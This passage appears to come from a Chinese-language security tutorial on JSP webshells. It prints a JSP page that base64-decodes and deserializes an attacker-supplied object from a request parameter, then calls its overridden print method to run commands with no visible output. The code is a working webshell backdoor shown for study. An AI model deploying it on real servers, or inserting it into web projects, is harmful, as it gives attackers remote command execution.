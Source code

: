 在本例中我们选择了 ServletOutputStream 类的 print 方法进行重写，此方法接收 String 参数，无回显，为了观看测试结果，我们使用了`System.out.print`打印了执行结果。

JSP 文件：

```jsp
<%@ page import="java.io.ObjectInputStream" %>
<%@ page import="java.io.ByteArrayInputStream" %>
<%

    String clazz = request.getParameter("class");
    String parm = request.getParameter("parm");

    byte[] classByte = new sun.misc.BASE64Decoder().decodeBuffer(clazz);

    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(classByte));

    try {
        ServletOutputStream myObject = (ServletOutputStream) ois.readObject();
        myObject.print(parm);
    } catch (ClassNotFoundException e) {
        e.printStackTrace();
    }

%>
```

可以看到，我们反序列化的对象直接强转为 ServletOutputStream 类型，并通过调用 print 方法进行执行。

效果：

![image-20191206152954585](../../images/image-20191206152954585.png)

页面无回显，但在控制台可以看到命令已经执行成功

![image-20191206153040779](../../images/image-20191206153040779.png)
